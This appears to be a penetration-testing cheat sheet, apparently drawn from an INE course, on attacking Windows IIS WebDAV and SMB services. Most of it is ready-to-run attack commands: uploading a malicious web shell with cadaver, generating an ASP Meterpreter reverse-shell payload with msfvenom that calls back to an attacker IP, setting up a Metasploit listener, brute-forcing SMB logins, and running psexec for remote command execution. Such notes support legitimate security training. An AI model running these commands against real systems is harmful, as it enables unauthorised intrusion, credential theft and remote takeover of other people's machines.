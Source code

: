 # Windows Vunerabilities

## Microsoft ISS WebDAV
```
davtest -url [URL]
```
```
davtest -auth [USERNAME]:[PASSWORD] -url [URL]
```
```
cadaver [URL]
```
Once inside cadaver prompt:
```
put [MALICIOUS-WEBSHELL]
```
Now Check ISS WebDAV via internet browser to perform objectives...

### Metasploit
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -f asp > [FILENAME]
```
Now put payload on target machine by any means (cadaver works well, see command above)  

Next set up and start a listenr:  
```
service postgresql start && msfconsole
```
```
use multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```
Set other required options and exploit

#### Automate the above process

```
use exploit/windows/iss/iss_webdav_upload_asp
```
Now set required options and exploit.  
  

## SMB

### Metasploit
```
service postgresql start && msfconsole
```
* Brute Force
```
search smb_login
```
```
use auxiliary/scanner/smb/smb_login
```
Show options, set them, and exploit the target

* PSExec Module
```
search psexec
```
```
exploit/windows/smb/psexec
```
Show options, set them, and exploit the target


### PSExec
```
psexec.py [USERNAME]@[TARGET-IP] cmd.exe
```


### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
